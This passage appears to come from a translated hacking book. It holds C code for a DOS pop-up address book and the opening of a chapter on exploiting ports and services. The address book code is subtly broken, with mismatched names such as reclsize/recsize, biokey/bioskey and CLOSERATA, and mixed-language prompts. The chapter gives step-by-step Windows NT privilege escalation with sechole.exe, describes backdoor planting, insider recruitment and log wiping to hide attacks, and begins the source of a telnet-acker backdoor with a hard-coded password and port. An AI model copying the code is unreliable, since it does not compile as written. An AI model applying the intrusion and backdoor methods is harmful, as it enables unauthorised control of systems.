    int86(16, &rg, &rg);
    *x = rg.h.dl;
    *y = rg.h.dh;
}

/*
  第三个模块，简单的弹出式通讯录
  支持鼠标
*/

#include <stdio.h>
#include <stdlib.h>
#include <io.h>
#include <string.h>
#include <fcntl.h>
#include <sys\stat.h>
#include <dos.h>
#include <conio.h>

#include <graphics.h>
#include <bios.h>

/* 左边不能小于 3 */
#define left 4

/* 记录的数据结构 */
typedef struct
{
    char name[31];
    char company[31];
    char address[31];
    char area[31];
    char town[31];
    char county[31];
    char post[13];
    char telephone[16];
    char fax[16];
} data;

extern char fpath[];
static char scr[4000];
static char sbuff[2000];
char stext[30];
data rec;
int handle;
int recsize;
union REGS inreg, outreg;

/* 函数原型 */
void FATAL(char *);
void OPENDATA(void);
void CONTINUE(void);
void EXPORT_MULTI(void);
void GETDATA(int);
int GETOPT(void);
void DISPDATA(void);
void ADD_REC(void);
void PRINT_MULTI(void);
void SEARCH(void);
void MENU(void);

int GET_MOUSE(int *buttons) {
    inreg.x.ax = 0;
    int86(0x33, &inreg, &outreg);
    *buttons = outreg.x.bx;
    return outreg.x.ax;
}

void MOUSE_CURSOR(int status) {
    /* 状态 = 0 关闭光标 */
    /* 1 开启光标 */
    inreg.x.ax = 2 - status;
    int86(0x33, &inreg, &outreg);
}

int MOUSE_LOCATION(int *x, int *y) {
    inreg.x.ax = 3;
    int86(0x33, &inreg, &outreg);

    *x = outreg.x.cx / 8;
    *y = outreg.x.dx / 8;

    return outreg.x.bx;
}

int GETOPT() {
    int result;
    int x;
    int y;

    do
    {
        do
        {
            result = MOUSE_LOCATION(&x, &y);
            if (result & 1)
            {
                if (x >= 52 && x <= 53 && y >= 7 && y <= 15)
                    return y - 7;
                if (x >= 4 && x <= 40 && y >= 7 && y <= 14)
                    return y + 10;

                if (x >= 4 && x <= 40 && y == 15)
                    return y + 10;
            }
        } while (!bioskey(1));

        result = bioskey(0);

        x = result & 0xff;
        if (x == 0)
        {
            result = result >> 8;
            result -= 60;
        }
    }
    while (result < 0 || result > 8);
    return result;
}

void setvideo(unsigned char mode) {
    /* 设置视频显示模式并清屏 */

    inreg.h.al = mode;
    inreg.h.ah = 0x00;
    int86(0x10, &inreg, &outreg);
}

int activepage(void) {
    /* 返回当前选择的视频显示页 */
    union REGS inreg, outreg;

    inreg.h.ah = 0x0F;
    int86(0x10, &inreg, &outreg);
    return (outreg.h.bh);
}

void print(char *str) {
    /*
     仅将字符直接打印到当前显示页，
     从当前光标位置开始。光标不会
     移动。
     此函数假设使用 COLOR 显示卡。若要用于
     单色显示卡，请将 0xB800 改为读取 0xB000
     */
    int page;
    int offset;
    unsigned row;
    unsigned col;
    char far *ptr;

    page = activepage();
    curr_cursor(&row, &col);

    offset = page * 4000 + row * 160 + col * 2;

    ptr = MK_FP(0xB800, offset);

    while (*str)
    {
        *ptr++ = *str++;
        ptr++;
    }
}

void TRUESHADE(int left, int top, int right, int bottom) {
    int n;

    /* 屏幕区块的真实阴影效果 */

    gettext(left, top, right, bottom, sbuff);
    for (n = 1; n < 2000; n += 2)
        sbuff[n] = 7;
    puttext(left, top, right, bottom, sbuff);
}

void DBOX(int l, int t, int r, int b) {
    /* 在描述的区域周围绘制双线框 */

    int n;

    cursor(t, l);
    print("┌");
    for (n = l; n < r - l; n++)
    {
        cursor(t, l + n);
        print("─");
    }
    cursor(t, r);
    print("┐");

    for (n = t + 1; n < b; n++)
    {
        cursor(n, l);
        print("│");
        cursor(n, r);
        print("│");
    }
    cursor(b, l);
    print("└");
    for (n = l; n < r - l; n++)
    {
        cursor(b, l + n);
        print("─");
    }
    cursor(b, r);
    print("┘");
}

int INPUT(char *text, unsigned length) {
    /* 从操作员接收字符串 */

    unsigned key_pos;
    int key;
    unsigned start_row;
    unsigned start_col;
    unsigned end;
    char temp[80];
    char *p;

    curr_cursor(&start_row, &start_col);

    key_pos = 0;
    end = strlen(text);
    for (;;)
    {
        key = biokey(0);
        if ((key & 0xFF) == 0)
        {
            key = key >> 8;
            if (key == 79)
            {
                while (key_pos < end)
                    key_pos++;
                cursor(start_row, start_col + key_pos);
            }
            else
                if (key == 71)
                {
                    key_pos = 0;
                    cursor(start_row, start_col);
                }
            else
                if ((key == 75) && (key_pos > 0))
                {
                    key_pos--;
                    cursor(start_row, start_col + key_pos);
                }
            else
                if ((key == 77) && (key_pos < end))
                {
                    key_pos++;
                    cursor(start_row, start_col + key_pos);
                }
            else
                if (key == 83)
                {
                    p = text + key_pos;
                    while (*(p + 1))
                    {
                        *p = *(p + 1);
                        p++;
                    }
                    *p = 32;
                    if (end > 0)
                        end--;
                    cursor(start_row, start_col);
                    cprintf(text);
                    cprintf(" ");
                    if ((key_pos > 0) && (key_pos == end))
                        key_pos--;
                    cursor(start_row, start_col + key_pos);
                }
            else
            {
                key = key & 0xFF;
                if (key == 13 || key == 27)
                    break;
                else
                {
                    if ((key == 8) && (key_pos > 0))
                    {
                        end--;
                        key_pos--;
                        text[key_pos--] = '\0';
                        strcpy(temp, text);
                        p = text + key_pos + 2;
                        strcat(temp, p);
                        strcpy(text, temp);
                        cursor(start_row, start_col);
                        cprintf("%-*s", length, length, text);
                        key_pos++;
                        cursor(start_row, start_col + key_pos);
                    }
                    else
                        if ((key > 31) && (key_pos < length) &&
                            (start_col + key_pos < 80))
                        {
                            if (key_pos <= end)
                            {
                                p = text + key_pos;
                                memmove(p + 1, p, end - key_pos);
                                if (end < length)
                                    end++;
                                text[end] = '\0';
                            }
                            text[key_pos++] = (char) key;
                            if (key_pos > end)
                            {
                                end++;
                                text[end] = '\0';
                            }
                            cursor(start_row, start_col);
                            cprintf("%-*s", length, length, text);
                            cursor(start_row, start_col + key_pos);
                        }
                }
            }
        }
    }
    text[end] = '\0';
    return key;
}

void FATAL(char *error) {
    /* 发生致命错误 */
    printf("\nFATAL ERROR: %s", error);
    exit(0);
}

void OPENDATA() {
    /* 检查数据文件是否存在，若不存在则创建它 */
}
```


```c
/* 否则在文件末尾打开以进行读写 */
handle = open(fpath,O_RDWR,S_IWRITE);

if (handle == -1)
{
   handle = open(fpath,O_RDWR|O_CREAT,S_IWRITE);
   if (handle == -1)
      FATAL("无法创建数据文件");
}
/* 读取第一条记录 */
read(handle,&rec,reclsize);
}

void CLOSERATA()
{
   close(handle);
}

void GETDATA(int start)
{
   /* 从操作员处获取地址数据 */

   textcolor(BLACK);
   textbackground(GREEN);
   gotoxy(left,8);
   print("姓名 ");
   gotoxy(left,9);
   print("公司 ");
   gotoxy(left,10);
   print("地址 ");
   gotoxy(left,11);
   print("区域 ");
   gotoxy(left,12);
   print("城镇 ");
   gotoxy(left,13);
   print("县 ");
   gotoxy(left,14);
   print("邮政编码 ");
   gotoxy(left,15);
   print("电话 ");
   gotoxy(left,16);
   print("传真 ");

   switch(start)
   {
      case 0: gotoxy(left + 10,8);
         if (INPUT(rec.name,30) == 27)
            break;
      case 1: gotoxy(left + 10,9);
         if (INPUT(rec.company,30) == 27)
            break;
      case 2: gotoxy(left + 10,10);
         if(INPUT(rec.address,30) == 27)
            break;
      case 3: gotoxy(left + 10,11);
         if(INPUT(rec.area,30) == 27)
            break;
      case 4: gotoxy(left + 10,12);
         if(INPUT(rec.town,30) == 27)
            break;
      case 5: gotoxy(left + 10,13);
         if(INPUT(rec.county,30) == 27)
            break;
      case 6: gotoxy(left + 10,14);
         if(INPUT(rec.post,12) == 27)
            break;

      case 7: gotoxy(left + 10,15);
         if(INPUT(rec.telephone,15) == 27)
            break;
      case 8: gotoxy(left + 10,16);
         INPUT(rec.fax,15);
         break;
   }
   txtcolor(WHITE);
   txtbackground(RED);
   gotoxy(left + 23,21);
   print("                            ");
}

void DISPDATA()
{
  /* 显示地址数据 */
  txtcolor(BLACK);
  txtbackground(GREEN);
  cursor(7,3);
  cprintf("姓名    %-30.30s",rec.name);
  cursor(8,3);
  cprintf("公司  %-30.30s",rec.company);
  cursor(9,3);
  cprintf("地址  %-30.30s",rec.address);
  cursor(10,3);
  cprintf("区域     %-30.30s",rec.area);
  cursor(11,3);
  cprintf("城镇     %-30.30s",rec.town);
  cursor(12,3);
  cprintf("县   %-30.30s",rec.county);
  cursor(13,3);
  cprintf("邮政编码 %-30.30s",rec.post);
  cursor(14,3);
  cprintf("电话 %-30.30s",rec.telephone);
  cursor(15,3);
  cprintf("传真       %-30.30s",rec.fax);
}

int LOCATE(char *text)
{
    int result;

    do
    {
        /* 将记录读入内存 */
        result = read(handle,&rec,reclsize);
        if (result > 0)
        {
            /* 扫描记录以查找匹配的数据 */
            if (strstr(strupr(rec.name),text) != NULL)
                return(1);
            if (strstr(strupr(rec.company),text) != NULL)
                return(1);
            if (strstr(strupr(rec.address),text) != NULL)
                return(1);
            if (strstr(strupr(rec.area),text) != NULL)
                return(1);
            if (strstr(strupr(rec.town),text) != NULL)
                return(1);
            if (strstr(strupr(rec.county),text) != NULL)
                return(1);
            if (strstr(strupr(rec.post),text) != NULL)
                return(1);
            if (strstr(strupr(rec.telephone),text) != NULL)
                return(1);
            if (strstr(strupr(rec.fax),text) != NULL)
                return(1);
        }
    } while(result > 0);
    return(0);
}

void SEARCH()
{
    int result;

    gotoxy(left,21);
    textcolor(WHITE);
    textbackground(RED);
    cprintf("输入要搜索的数据 ");
    strcpy(stext,"");
    INPUT(stext,30);
    if (*stext == 0)
    {
        gotoxy(left,21);
        cprintf("%70c",32);
        return;
    }
    gotoxy(left,21);
    textcolor(WHITE);
    textbackground(RED);

    cprintf("正在搜索 %s 请稍候... ",stext);
    strupr(stext);
    /* 定位到文件开头 */
    lseek(handle,0,SEEK_SET);
    result = LOCATE(stext);
    if (result == 0)
    {
        gotoxy(left,21);

        cprintf("%70c",32);
        gotoxy(left + 27,21);
        cprintf("没有匹配的记录");
        gotoxy(left + 24,22);
        cprintf("按 RETURN 继续");
        biokey(0);
        gotoxy(left,21);
        cprintf("%70c",32);
        gotoxy(left,22);
        cprintf("%70c",32);
    }
    else
    {
        lseek(handle,0 - reclsize,SEEK_CUR);
        read(handle,&rec,reclsize);
        DISPDATA();
    }
    textcolor(WHITE);
    textbackground(RED);
    gotoxy(left,21);
    cprintf("%70c",32);
    textcolor(BLACK);
    textbackground(GREEN);
}

void CONTINUE()
{
    int result;
    long curpos;

    curpos = tell(handle) - reclsize;

    result = LOCATE(stext);
    textcolor(WHITE);
    textbackground(RED);
    if (result == 0)
    {
        gotoxy(left + 24,21);
        cprintf("没有更多匹配的记录");
        gotoxy(left + 24,22);
        cprintf("按 RETURN 继续");
        biokey(0);
        gotoxy(left,21);
        cprintf("%70c",32);
        gotoxy(left,22);
        cprintf("%70c",32);

        lseek(handle,curpos,SEEK_SET);

        read(handle,&rec,reclsize);

        DISPDATA();
    }
    else
    {
        lseek(handle,0 - reclsize,SEEK_CUR);

        read(handle,&rec,reclsize);

        DISPDATA();
    }

    textcolor(WHITE);
    textbackground(RED);
    gotoxy(left,21);
    cprintf("%70c",32);
    gotoxy(left,22);
    cprintf("                          ");
    textcolor(BLACK);
    textbackground(GREEN);
}

void PRINT_MULTI()
{
    data buffer;
    char destination[60];
    char text[5];
    int result;
    int ok;
    int ok2;
    int blanks;
    int total_lines;
    char *p;
    FILE *fp;

    textcolor(WHITE);
    textbackground(RED);
    gotoxy(left + 23,21);
    cprintf("输入筛选条件");

    /* 清除现有记录详情 */
    memset(&rec,0,reclsize);
    DISPDATA();
    GETDATA(0);

    textcolor(WHITE);
    textbackground(RED);
    gotoxy(left,21);
    cprintf("输入报告目标 PRN");
    strcpy(destination,"PRN");
    gotoxy(left,22);
    cprintf("输入地址行数 18");
    strcpy(text,"18");

    gotoxy(left + 25,21);
    INPUT(destination,40);

    gotoxy(left + 30,22);
    INPUT(text,2);
    gotoxy(left,21);
    cprintf("%72c",32);
    gotoxy(left,22);
    cprintf("%72c",32);

    total_lines = atoi(text) - 6;
    if (total_lines < 0)
        total_lines = 0;

    fp = fopen(destination,"w+");
    if (fp == NULL)
    {
        gotoxy(left,21);
        cprintf("无法打印到 %s",destination);
        gotoxy(left,22);
        cprintf("按 RETURN 继续");
        biokey(0);
        gotoxy(left,21);
        cprintf("%78c",32);
        gotoxy(left,22);
        cprintf("                         ");
    }

    /* 定位到文件开头 */
    lseek(handle,0,SEEK_SET);

    do
    {
        /* 将记录读入内存 */
        result = read(handle,&buffer,recsize);
        if (result > 0)
        {
            ok = 1;
            /* 扫描记录以查找匹配的数据 */
            if (*rec.name)
                if (strcmp(buffer.name,rec.name))
                    ok = 0;
            if (*rec.company)
                if (strcmp(buffer.company,rec.company))
                    ok = 0;
            if (*rec.address)
                if (strcmp(buffer.address,rec.address))
                    ok = 0;
            if (*rec.area)
                if (strcmp(buffer.area,rec.area))
                    ok = 0;
            if (*rec.town)
                if (strcmp(buffer.town,rec.town))
                    ok = 0;
            if (*rec.county)
                if (strcmp(buffer.county,rec.county))
                    ok = 0;
            if (*rec.post)
                if (strcmp(buffer.post,rec.post))
                    ok = 0;
            if (*rec.telephone)
                if (strcmp(buffer.telephone,rec.telephone))
                    ok = 0;
            if (*rec.fax)
                if (strcmp(buffer.fax,rec.fax))
                    ok = 0;
            if (ok)
            {
                blanks = total_lines;
                p = buffer.name;
                ok2 = 0;
                while(*p)
                {
                    if (*p != 32)
                    {
                        ok2 = 1;
                        break;
                    }
                    p++;
                }
                if (!ok2)
                    blanks++;
                else
                    fprintf(fp,"%s\n",buffer.name);
                p = buffer.company;
                ok2 = 0;
                while(*p)
                {
                    if (*p != 32)
                    {
                        ok2 = 1;
                        break;
                    }
                    p++;
                }
                if (!ok2)
                    blanks++;
                else
                    fprintf(fp,"%s\n",buffer.company);
                p = buffer.address;
                ok2 = 0;
                while(*p)
                {
                    if (*p != 32)
                    {
                        ok2 = 1;
                        break;
                    }
                    p++;
                }
                if (!ok2)
                    blanks++;
                else
                    fprintf(fp,"%s\n",buffer.address);
                p = buffer.area;
                ok2 = 0;
                while (*p)
                {
                    if (*p != 32)
                    {
                        ok2 = 1;
                        break;
                    }
                    p++;
                }
                if (!ok2)
                    blanks++;
                else
                    fprintf(fp, "%s\n", buffer.area);
                p = buffer.town;
                ok2 = 0;
                while (*p)
                {
                    if (*p != 32)
                    {
                        ok2 = 1;
                        break;
                    }
                    p++;
                }
                if (!ok2)
                    blanks++;
                else
                    fprintf(fp, "%s\n", buffer.town);
                p = buffer.county;
                ok2 = 0;
                while (*p)
                {
                    if (*p != 32)
                    {
                        ok2 = 1;
                        break;
                    }
                    p++;
                }
                if (!ok2)
                    blanks++;
                else
                    fprintf(fp, "%s\n", buffer.county);
            }
        }
    } while (result > 0);
}
```


```c
blanks++;
else
    fprintf(fp, "%s\n", buffer.county);
p = buffer.post;
ok2 = 0;
while (*p)
{
    if (*p != ' ')
    {
        ok2 = 1;
        break;
    }
    p++;
}
if (!ok2)
    blanks++;
else
    fprintf(fp, "%s\n", buffer.post);
while (blanks)
{
    fprintf(fp, "\n");
    blanks--;
}
}
}
while (result > 0);
fclose(fp);
lseek(handle, 0, SEEK_SET);
read(handle, &rec, recsize);
DISPDATA();
}

void EXPORT_MULTI()
{
    data buffer;
    char destination[60];
    int result;
    int ok;
    FILE *fp;

    textcolor(WHITE);
    textbackground(RED);
    gotoxy(left + 23, 21);
    cprintf("Enter selection criteria");

    /* Clear existing rec details */
    memset(&rec, 0, recsize);

    DISPDATA();
    GETDATA(0);

    textcolor(WHITE);
    textbackground(RED);
    gotoxy(left, 21);
    printf("Enter export file address.txt");
    strcpy(destination, "address.txt");
    gotoxy(left + 18, 21);
    INPUT(destination, 59);
    gotoxy(left, 21);
    cprintf("%70c", ' ');

    fp = fopen(destination, "w+");
    if (fp == NULL)
    {
        gotoxy(left, 21);
        cprintf("Unable to print to %s", destination);
        gotoxy(left, 22);
        cprintf("Press RETURN to Continue");
        biokey(0);
        gotoxy(left, 21);
        cprintf("%78c", ' ');
        gotoxy(left, 22);
        cprintf("                             ");
    }
    /* Locate start of file */
    lseek(handle, 0, SEEK_SET);

    do
    {
        /* Read rec into memory */
        result = read(handle, &buffer, recsize);
        if (result > 0)
        {
            ok = 1;
            /* Scan rec for matching data */
            if (*rec.name)
                if (strcmp(buffer.name, rec.name))
                    ok = 0;
            if (*rec.company)
                if (strcmp(buffer.company, rec.company))
                    ok = 0;
            if (*rec.address)
                if (strcmp(buffer.address, rec.address))
                    ok = 0;
            if (*rec.area)
                if (strcmp(buffer.area, rec.area))
                    ok = 0;
            if (*rec.town)
                if (strcmp(buffer.town, rec.town))
                    ok = 0;
            if (*rec.county)
                if (strcmp(buffer.county, rec.county))
                    ok = 0;
            if (*rec.post)
                if (strcmp(buffer.post, rec.post))
                    ok = 0;
            if (*rec.telephone)
                if (strcmp(buffer.telephone, rec.telephone))
                    ok = 0;
            if (*rec.fax)
                if (strcmp(buffer.fax, rec.fax))
                    ok = 0;
            if (ok)
            {
                fprintf(fp, "\"%s\", ", buffer.name);
                fprintf(fp, ",\"%s\", ", buffer.company);
                fprintf(fp, ",\"%s\", ", buffer.address);
                fprintf(fp, ",\"%s\", ", buffer.area);
                fprintf(fp, ",\"%s\", ", buffer.town);
                fprintf(fp, ",\"%s\", ", buffer.county);
                fprintf(fp, ",\"%s\", ", buffer.post);
                fprintf(fp, ",\"%s\", ", buffer.telephone);
                fprintf(fp, ",\"%s\"\n", buffer.fax);
            }
        }
    }
    while (result > 0);
    fclose(fp);
    lseek(handle, 0, SEEK_SET);
    read(handle, &rec, recsize);
    DISPDATA();
}

void MENU()
{
    int option;
    long result;
    long end;
    int new;
    do
    {
        cursor(21, 26);
        print("Select option (F2 - F10)");
        cursor(7, 52);
        print("F2 Next record");
        cursor(8, 52);
        print("F3 Previous record");
        cursor(9, 52);
        print("F4 Amend record");
        cursor(10, 52);
        print("F5 Add new record");
        cursor(11, 52);
        print("F6 Search");
        cursor(12, 52);
        print("F7 Continue search");
        cursor(13, 52);
        print("F8 Print address labels");
        cursor(14, 52);
        print("F9 Export records");
        cursor(15, 52);
        print("F10 Exit");
        MOUSE_CURSOR(1);
        option = GETOPT();
        MOUSE_CURSOR(0);

        switch (option)
        {
        case 0: /* Next rec */
            result = read(handle, &rec, recsize);
            if (!result)
            {
                lseek(handle, 0, SEEK_SET);
                result = read(handle, &rec, recsize);
            }
            DISPDATA();
            break;

        case 1: /* Previous rec */
            result = lseek(handle, 0 - recsize * 2, SEEK_CUR);
            if (result <= -1)
                lseek(handle, 0 - recsize, SEEK_END);
            result = read(handle, &rec, recsize);
            DISPDATA();
            break;

        case 2: /* Amend current rec */
            new = 1;
            if (*rec.name)
                new = 0;
            else
            if (*rec.company)
                new = 0;
            else
            if (*rec.address)
                new = 0;
            else
            if (*rec.area)
                new = 0;
            else
            if (*rec.town)
                new = 0;
            else
            if (*rec.county)
                new = 0;
            else
            if (*rec.post)
                new = 0;
            else
            if (*rec.telephone)
                new = 0;
            else
            if (*rec.fax)
                new = 0;
            result = tell(handle);
            lseek(handle, 0, SEEK_END);
            end = tell(handle);

            /* Back to original position */
            lseek(handle, result, SEEK_SET);

            /* If not at end of file, && !new rewind one rec */
            if (result != end || !new)
                result = lseek(handle, 0 - recsize, SEEK_CUR);
            result = tell(handle);
            gotoxy(left + 22, 21);
            print("Enter address details  ");
            GETDATA(0);
            if (*rec.name || *rec.company)
                result = write(handle, &rec, recsize);
            break;

        case 3: /* Add rec */
            lseek(handle, 0, SEEK_END);
            memset(&rec, 0, recsize);
            DISPDATA();
            break;

        case 4: /* Search */
            gotoxy(left + 22, 21);
            print("         ");
            SEARCH();
            break;

        case 5: /* Continue */
            gotoxy(left + 22, 21);
            print("         ");
            CONTINUE();
            break;

        case 6: /* Print */
            gotoxy(left + 22, 21);
            print("         ");
            PRINT_MULTI();
            break;

        case 7: /* Export */
            gotoxy(left + 22, 21);
            print("         ");
            EXPORT_MULTI();
            break;

        case 8: /* Exit */
            break;

        default: /* Amend current rec */
            new = 1;
            if (*rec.name)
                new = 0;
            else
            if (*rec.company)
                new = 0;
            else
            if (*rec.address)
                new = 0;
            else
            if (*rec.area)
                new = 0;
            else
            if (*rec.town)
                new = 0;
            else
            if (*rec.county)
                new = 0;
            else
            if (*rec.post)
                new = 0;
            else
            if (*rec.telephone)
                new = 0;
            else
            if (*rec.fax)
                new = 0;
            result = tell(handle);
            lseek(handle, 0, SEEK_END);
            end = tell(handle);

            /* Back to original position */
            lseek(handle, result, SEEK_SET);

            /* If not at end of file, && !new rewind one rec */
            if (result != end || !new)
                result = lseek(handle, 0 - recsize, SEEK_CUR);
            result = tell(handle);
            gotoxy(left + 22, 21);
            print(" Enter address details ");
            GETDATA(option - 17);
            if (*rec.name || *rec.company)
                result = write(handle, &rec, recsize);
            option = -1;
            break;
        }
    } while (option != 8);
}

void exec()
{
    gettext(1, 1, 80, 25, scr);
    setvideo(3);
    textbackground(WHITE);
    textcolor(BLACK);
    clrcr();
    recsize = sizeof(data);

    OPENDATA();

    TRUESHADE(left, 3, 79, 5);
    window(left - 2, 2, 78, 4);
    textcolor(YELLOW);
    textbackground(MAGENTA);
    clrscr();
    DBOX(left - 3, 1, 77, 3);
    gotoxy(3, 2);
    print("Servile Software  PC ADDRESS BOOK 5.2   (c) 1994");

    TRUESHADE(left, 8, left + 43, 18);
    window(left - 2, 7, left + 42, 17);
    textcolor(BLACK);
    textbackground(GREEN);
    clrscr();
    DBOX(left - 3, 6, left + 41, 16);

    TRUESHADE(left + 48, 8, 79, 18);
    window(left + 46, 7, 78, 17);

    textbackground(BLUE);
    textcolor(YELLOW);
    clrscr();
    DBOX(left + 45, 6, 77, 16);

    TRUESHADE(left, 21, 79, 24);
    window(left - 2, 20, 78, 23);
    textbackground(RED);
    textcolor(WHITE);
    clrscr();
    DBOX(-3, 19, 77, 22);

    window(1, 1, 80, 25);
    textcolor(BLACK);
    textbackground(GREEN);
    DISPDATA();

    MENU();

    CLOSEDATA();
    puttext(1, 1, 80, 25, scr);
    return;
}
```

## 结论

至此，我们讨论了与通信协议和介质相关的技术定位。我们还学习了在规划攻击时使用的关键黑客发现和扫描技术。接下来，我们学习了构建黑客技术基础的相关互连知识。最后，我们对 C 程序员语言进行了全面介绍。

现在，是时候考虑我们所学的一切，同时探索黑客用于控制计算机、服务器和互连设备的不同漏洞渗透方法了。

## 第 8 章

### 端口、套接字和服务漏洞渗透

本章解决了不同的漏洞渗透方法，这些方法用于证实并利用在安全分析 *发现* 和 *站点扫描* 阶段（第 5 章中描述）发现的破坏。黑客通常使用这些方法获取管理访问权限，突破并控制计算机、服务器和互连设备。

为了帮助你更好地理解此类攻击对不充分的安全策略的影响，我们将在本章中调查真实的渗透案例。


要完全理解本章及本书其余章节的内容（并成为黑客高手），你必须具备扎实的编程背景，特别是程序内部的工作方式。为此，请务必彻底理解第 7 章“黑客编码基础”中的材料。你或许也需要回顾出版商网站 www.wiley.com 上提供的其他编程出版物。

### 案例概要示例

首先，我们将调查 Microsoft Windows NT 网络渗透攻击的一个常见例子。通过利用现有的 Windows NT 服务，应用程序可以定位开放进程内存中的特定应用程序编程接口（API）调用，修改运行实例中的指令，并获取系统的调试级访问权限。在此阶段，已连接的攻击者将拥有本地 NT 安全账户管理器（SAM）数据库中管理员组的完全成员权限（如您所知，SAM 在 Windows NT 账户验证和安全方面起着至关重要的作用）。

让我们更仔细地看看这种渗透。以下描述了在 Windows NT 网络上，任何普通或无管理员用户如何通过运行一个简单的黑客程序即时获得管理控制权。唯一的要求是拥有一台运行 Windows NT 3.51、4.0 或 5.0（工作站或服务器）的机器，然后遵循以下四个简单步骤：

1.  *登录*。以机器上的任何用户身份登录，包括 Guest 账户。
2.  *复制文件*。登录完成后，将文件 *sechole.exe* 和 *admindll.dll* 复制到任何你有读写和执行权限的目录中的硬盘驱动器上。
3.  *运行 Sechole.exe*。执行 *sechole.exe*。（请注意，运行此程序后，你的系统可能变得不稳定，甚至可能锁定。）
4.  *如有必要，重启机器*。砰！当前的非管理员用户现在属于 Windows NT 管理员组，意味着他或她对那台机器拥有完全的管理控制权。


本章中显示的节目包含在随书附赠的光盘中。


事实上，如果这种渗透行为发生在未受保护的网络服务器上，这个例子可能会成为IT人员的噩梦，特别是当它与日志清除工具（本章稍后部分将详细描述）结合使用以掩盖攻击痕迹时。这种特定类型的渗透通常由组织内部发起，或通过外部网络和虚拟专用网络（VPNs）进行远程访问实现。

在此阶段，让我们继续讨论用于利用本地和远程潜在安全漏洞的其他秘密方法和技术。

## 后门工具包

本质上，后门是黑客用来获取、保持并掩盖其对内部网络架构（即系统）访问权限的手段和方法。

更一般地说，后门指的是特定安全系统中的缺陷。因此，黑客通常希望在面对新防火墙、过滤器、代理和已修补的漏洞等障碍时，也能保留对已渗透系统的访问权限。

后门工具包分为两个截然不同的类别：主动式和被动式。主动式后门可被黑客在任意时间使用；被动式后门工具包会根据预设的时间或系统事件自动触发。黑客选择的后门类型与现有的安全网关架构直接相关。网络安全通常仅限于上述障碍——防火墙、过滤器和代理。为简化选项，有两个基本的架构类别：包过滤器和代理防火墙——每种都有增强版本。

### 包过滤器

包过滤器是一种主机或路由器，在通过正确的接口将数据包路由到目标网络和/或节点之前，会根据策略或规则检查每个数据包。最常见的过滤策略会拒绝发起内向会话的ICMP、UDP和传入SYN/ACK数据包。这些过滤器的非常简单的类型只能根据源主机、目标主机和目标端口进行过滤。高级类型还可以基于传入接口、源端口甚至报头标志做出决策。这种过滤器的一个例子是简单的路由器，例如任何思科系列访问路由器，甚至是带有防火墙守护程序的UNIX工作站。如果路由器被配置为传递特定协议，外部主机可以使用该协议与内部主机建立直接连接。大多数路由器可以编程以生成审计日志，并具备在检测到恶意行为时产生警报的功能。

包过滤器的一个问题是它们难以管理；随着规则变得更加复杂，产生冲突策略或允许不需要的数据包进入的可能性也相应增加。黑客意识到这些架构也存在许多安全漏洞。无论如何，包过滤器都有其存在的价值，主要作为防火墙前的第一道防线。目前，许多防火墙的包过滤器已编译到其内核模块或内部网络操作系统（IOS）中。

### 有状态过滤器

有状态过滤器是包过滤器的增强版本，在提供与其前代相同功能的同时，还能跟踪状态信息（如TCP序列号）。从根本上说，有状态过滤器维持关于连接的信息。例子包括思科PIX、Checkpoint FireWall-1和Watchguard防火墙。

有状态过程被定义为在协议栈的最低层分析数据，以将当前会话与之前的会话进行比较，目的是检测可疑活动。与应用层网关不同，有状态检查使用由用户定义的具体规则，因此不依赖预定义的应用程序信息。有状态检查所需的处理能力也比应用层分析少。缺点是，有状态检查防火墙不识别特定应用程序，因此无法对不同应用应用不同的规则。

### 代理防火墙

*代理防火墙*主机简单地说是具有双网卡（NICs）的服务器，禁用了路由或数据包转发，转而使用代理服务器守护程序。对于需要通过此网关的每个应用程序，必须安装并运行软件以进行代理。代理服务器代表一个或多个其他服务器行动；通常用于筛选、防火墙、缓存或这些目的的组合。

*网关*一词常用作代理服务器的同义词。通常，代理服务器在公司或企业内使用，以收集所有互联网请求，将它们转发到互联网服务器，接收响应，然后将数据转发给公司内的原始请求者（使用*代理代理*，它代表用户行动，通常接受来自用户的连接，并与远程主机或服务完成连接）。

### 应用代理网关

*应用代理网关*是代理防火墙的增强版本，与代理防火墙一样，对于应该通过防火墙的每个应用程序，必须安装并运行软件以进行代理。不同之处在于，应用网关包含集成的模块，用于检查每个请求和响应。例如，出站文件传输协议（FTP）流可能只能下载数据。应用网关在协议栈的应用层查看数据，并作为外部用户的代理，拦截数据包并将其转发到应用。因此，外部用户永远无法直接连接到防火墙之外的任何事物。防火墙查看此应用程序信息的事实意味着它可以区分FTP和SMTP等事物。因此，应用网关为其支持的每个应用程序提供安全性。


> 大多数供应商的安全架构都包含其**独特的安全漏洞**（更多信息请参见第9章）。

### 实施后门工具包

通过防火墙架构利用后门的安全漏洞并非易事。相反，必须仔细规划才能成功完成。在实施后门工具包时，通常会发生四种行动：

- *夺取虚拟连接*。这涉及劫持远程telnet会话、VPN隧道或安全ID会话。
- *植入内应*。这是一个用户、技术人员或通过社会工程学（欺骗）被策反的个人，他从内部网络安装该工具包。这种行动的一个更简单且常见的版本是向内部用户发送带有远程访问木马的伪造电子邮件。
- *利用内部漏洞*。大多数网络都提供某些服务套件，无论是电子邮件、域名解析还是非军事化区（DMZ；防火墙前方的区域，通常未完全受防火墙保护）中的Web服务器访问。对其中任何一项服务的攻击都有可能成功获得访问权限。考虑到许多防火墙运行邮件中继守护程序这一事实。
- *利用外部漏洞*。这涉及穿透外部边界网关上的外部邮件服务器、HTTP服务器守护程序和/或telnet服务。大多数安全策略被视为标准或不完整（易受攻击），因此至少可以导致缓冲区溢出或端口泛洪。

由于这些机器通常受到监控并定期检查，经验丰富的黑客不会尝试在直接连接到防火墙段落的机器上放置后门。常见的目标是内部局域网（LAN）节点，这些节点通常未受保护且没有定期管理。

> **统计表明，10个拥有互联网访问权限的节点中有7个（位于防火墙前方或后方）已暴露于某种形式的木马或后门工具包。黑客经常随机扫描互联网以查找这些端口，寻找新的受害者。**

## 正在使用的常见后门方法

本节描述了在前几节中定义的基本架构类别及其增强版本中使用的常见后门方法。

### 包过滤器

作为包过滤器运行的路由器和网关通常有一个共同点：具备通过telnet连接此网关进行管理的能力。一种被称为telnet-acker后门方法变体常被应用于绕过这些过滤器。该方法类似于标准的telnet守护程序，但它仅使用TCP ACK数据包而不形成TCP握手。因为这些数据包看起来像是属于之前建立的连接，所以被允许通过。以下是一个可以为此类后门例程修改的示例：

telnet-acker.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/wait.h>
#include <fcntl.h>
#include <errno.h>
#include <netinet/in.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/ioctl.h>

#define QLEN                 5
#define MY_PASS            "passme"
#define SERV_TCP_PORT      33333

